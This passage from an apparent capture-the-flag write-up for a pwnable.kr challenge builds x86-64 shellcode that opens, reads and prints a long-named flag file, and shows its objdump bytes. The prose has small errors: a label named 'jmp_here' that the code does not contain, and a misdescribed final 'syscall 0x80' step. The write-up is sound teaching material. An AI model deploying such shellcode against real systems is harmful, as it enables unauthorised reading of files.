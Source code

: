 It works! Now we need to do something to our `name` variable, because we don't have control over the data section of a program which is already running. Let's use this trick:

```asm
.section .text
.global _start
_start:
    movq %rsp, %rbp  # storing initial stack pointer
    movq $100, %rbx  # store size
    subq %rbx, %rsp  # allocate size bytes

jmp do_call
jmp_back:
    popq %rdi  # first argument (name)
    movl $0, %esi  # second argument (O_RDONLY)
    movq $2, %rax  # open syscall code
    syscall

    movl %eax, %edi  # first argument (return from open)
    leaq -100(%rbp), %rsi  # second argument (buffer address)
    movl %ebx, %edx  # third argument (size)
    movq $0, %rax  # read syscall code
    syscall

    movl $1, %edi  # first argument (stdout descriptor)
    leaq -100(%rbp), %rsi  # second argument (buffer address)
    movl %ebx, %edx  # third argument (size)
    movq $1, %rax  # write syscall code
    syscall

    movq 0x80, %rax
    syscall

do_call:
    call jmp_back
name:
    .string "this_is_pwnable.kr_flag_file_please_read_this_file.sorry_the_file_name_is_very_loooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooooo0000000000000000000000000ooooooooooooooooooooooo000000000000o0o0o0o0o0o0ong"
```

Why are we jumping to `jmp_here` and then calling `jmp_back` again? Because, when we make a call, the return address is pushed onto the stack. Here the return address will be the address of `name`, which is now in the text segment.

Right after the `jmp_here` jump, in `jmp_back`, we pop this address and store in `rdi`, the first argument of the `open` syscall later on. Lastly we add a `0x80` syscall (interrupt) to make sure our program doesn't loop forever. Genius!

We can now get our shellcode:

```bash
$ objdump -d shell
[...]
0000000000400078 <_start>:
  400078:	48 89 e5             	mov    %rsp,%rbp
  40007b:	48 c7 c3 64 00 00 00 	mov    $0x64,%rbx
  400082:	48 29 dc             	sub    %rbx,%rsp
  400085:	eb 3e                	jmp    4000c5 <do_call>

0000000000400087 <jmp_back>:
  400087:	5f                   	pop    %rdi
  400088:	be 00 00 00 00       	mov    $0x0,%esi
  40008d:	48 c7 c0 02 00 00 00 	mov    $0x2,%rax
  400094:	0f 05                	syscall 
  400096:	89 c7                	mov    %eax,%edi
```